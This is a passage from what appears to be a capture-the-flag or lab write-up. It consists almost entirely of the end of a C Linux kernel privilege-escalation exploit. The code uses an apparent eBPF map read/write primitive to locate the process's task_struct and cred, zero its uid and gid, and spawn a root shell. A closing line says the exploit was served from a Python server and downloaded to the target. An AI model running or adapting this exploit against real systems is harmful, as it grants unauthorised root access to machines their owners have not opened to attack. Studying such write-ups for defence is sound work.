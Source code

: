 ```
	return get_value(2);
}

static void __write(uint64_t addr, uint64_t val) {
	__update_elem(2, addr, val);
}

static uint64_t get_sp(uint64_t addr) {
	return addr & ~(0x4000 - 1);
}

static void pwn(void) {
	uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp();
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp);
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);

	credptr = __read(task_struct + CRED_OFFSET); // cred

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}

int main(int argc, char **argv) {
	prep();
	pwn();

	return 0;
}
```
<br> I ran a python server to host the exploit then I downloaded it on the box :